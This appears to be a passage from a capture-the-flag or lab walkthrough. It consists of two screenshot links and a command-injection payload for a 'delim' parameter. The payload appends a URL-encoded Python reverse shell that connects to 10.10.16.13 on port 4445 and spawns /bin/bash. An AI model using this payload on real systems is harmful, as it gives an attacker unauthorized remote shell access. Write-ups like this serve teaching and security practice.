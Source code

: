 ![](./IMG/28.png)

![](./IMG/29.png)
- Then we inject the following payload to the parameter (delim).

```
delim=comma%26python3+-c+'import+os,pty,socket%3bs%3dsocket.socket()%3bs.connect(("10.10.16.13",4445))%20%3b[os.dup2(s.fileno(),f)for+f+in(0,1,2)]%3bpty.spawn("/bin/bash")'
```
